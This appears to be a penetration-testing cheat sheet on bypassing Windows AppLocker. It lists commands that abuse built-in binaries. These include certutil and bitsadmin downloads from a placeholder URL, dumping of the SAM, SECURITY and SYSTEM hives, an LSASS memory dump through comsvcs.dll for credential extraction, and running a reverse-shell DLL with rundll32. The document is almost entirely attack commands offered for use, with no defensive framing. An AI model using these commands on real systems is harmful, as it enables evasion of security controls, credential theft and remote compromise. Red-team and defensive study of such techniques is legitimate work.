# Applocker bypasses

## General

- Binaries on C:\Windows are exempted by default
	- C:\Windows\Temp & C:\Windows\Tasks are writable by everyone
	- You can execute powershell scripts but not load them
- Wrap your binaries into a DLL & execute using rundll32 (or some other LOLBAS execution)
- Use winrs and spawn a command prompt instead (winrs.exe -r:<COMPUTER> cmd.exe)
- Lateral Movement via PsExec or Scheduled Task bypass it
- Use LOLBAS

## LOLBAS
* https://lolbas-project.github.io/#

### File downloading
```
certutil -urlcache -split -f <URL>
bitsadmin /transfer WindowsUpdates /priority normal <URL> C:\\PATH\\TO\\FILE
```

### SAM dumping
```
reg save HKLM\SECURITY C:\Windows\Temp\security.bak
reg save HKLM\SYSTEM C:\Windows\Temp\system.bak
reg save HKLM\SAM C:\Windows\Temp\sam.bak
secretsdump.py -sam sam.bak -security security.bak -system system.bak local
```

### LSASS Dumping
```
Get-Process | Select lsass
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <LSASS PID> dump.bin full
pypykatz.py lsa minidump <DUMP FILE>
```

### Execute your own DLLs (like revshells)
```
rundll32.exe shell.dll,StartW
```
